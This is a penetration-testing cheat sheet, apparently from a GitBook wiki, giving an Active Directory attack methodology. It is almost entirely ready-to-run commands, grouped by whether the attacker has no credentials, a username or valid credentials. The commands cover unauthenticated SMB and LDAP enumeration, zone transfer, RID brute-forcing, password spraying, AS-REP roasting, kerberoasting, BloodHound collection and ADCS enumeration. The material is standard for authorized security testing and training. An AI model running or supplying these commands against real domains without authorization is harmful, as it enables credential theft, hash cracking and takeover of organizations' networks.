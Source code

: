 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Active Directory Methodology

## No credentials

### Enumeration

```sh
nxc smb <target_ip>
enum4linux -a <target_ip>
nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
ldapsearch -x -H <dc_ip> -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr <domain> @<dc_ip>
```
{% endcode %}

### Shares

```sh
nxc smb <dc_ip> -u '' -p '' --shares
nxc smb <dc_ip> -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> --users
nxc smb <dc_ip> --rid-brute 10000
```
{% endcode %}

```sh
kerbrute userenum -d <domain> <user_wordlist>
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py <dc_ip>
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <user_wordlist> -p <password_wordlist> --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREP Roast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <user_wordlist> -p '' --asreproast <output>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetNPUsers.py <domain>/ -usersfile <user_wordlist>
```
{% endcode %}

### Blind kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth <asrep_user> -usersfile <user_wordlist> -dc-host <dc_ip> <domain>/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <user> -p <password> --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <user> -p <password> -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py <user>:<password>@<dc_ip>
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d <domain> -u <user> -p <password> [-ns <dc_ip>] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u <domain>\<user> -p <password> -o <output_folder> <dc_ip>
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u <user>@<domain> -p <password> -dc-ip <dc_ip> -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <user> -p <password> --kerberoasting $OUTPUT_FILE
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:$PASSWORD
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```sh
sudo ntpdate <dc_ip>
```
{% endcode %}
{% endhint %}

